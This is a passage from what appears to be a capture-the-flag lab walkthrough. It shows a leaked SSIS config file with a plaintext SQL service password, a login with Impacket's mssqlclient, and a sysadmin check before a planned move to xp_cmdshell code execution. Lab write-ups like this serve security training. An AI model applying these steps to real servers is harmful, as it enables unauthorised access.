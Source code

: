 There is a dtsConfig file, which is a config file used with SSIS.

~~~
unknown@kali:/data$ cat prod.dtsConfig 
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
~~~

# Foothold

We see that it contains a SQL connection string, containing credentials for the local Windows user `ARCHETYPE\sql_svc.`

Let's try connecting to the SQL Server using [Impacket's](https://github.com/SecureAuthCorp/impacket) mssqlclient.py.

~~~
unknown@kali:/data$ mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> select is_srvrolemember('sysadmin')
              

-----------   

          1   

SQL> 
~~~

We can use the `IS_SRVROLEMEMBER` function to reveal whether the current SQL user has sysadmin (highest level) privileges on the SQL Server. This is successful, and we do indeed have sysadmin privileges.

This will allow us to enable `xp_cmdshell` and gain RCE on the host. Let's attempt this, by inputting the commands below.
